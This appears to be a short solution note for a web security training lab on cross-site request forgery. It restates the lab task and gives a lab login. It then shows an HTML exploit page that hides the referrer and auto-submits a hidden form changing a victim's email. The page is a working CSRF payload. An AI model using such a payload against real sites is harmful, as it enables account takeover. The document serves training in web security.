 This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

---

temp
```html
<html>
    <head>
        <meta name="referrer" content="never"> 
    </head>
    <body>
        <h1>Hello world!</h1>
        <form action="https://0ab5007803da07dc80ad356300f6002f.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form">
            <input type="hidden" name="email" value="test6@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

